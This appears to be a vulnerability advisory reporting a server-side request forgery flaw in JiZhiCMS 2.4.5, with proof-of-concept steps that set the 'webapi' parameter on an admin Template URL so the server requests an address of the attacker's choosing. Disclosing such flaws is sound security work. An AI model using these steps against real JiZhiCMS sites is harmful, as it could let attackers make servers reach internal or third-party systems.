


# JiZhiCMS is vulnerable to Server-side request forgery (SSRF)
## Description
    JiZhiCMS 2.4.5 is vulnerable to Server-side request forgery (SSRF)
## Vendor Homepage
    https://github.com/Cherry-toto/jizhicms,https://www.jizhicms.cn/

## Author
    HuBenLab
## Proof of Concept
The problem is in the Index function in TemplateController.php, we can control the set and webapi parameters can be customized to add an address and then visit Template/index can be triggered.



Use the following steps

1. Clear the cache in the system settings first

2. Add webapi

```
index.php/admins/Template/index?webapi=http://ip&set=1
```

3. Visit the template homepage

```
index.php/admins/Template/index
```

After that it will receive the request.

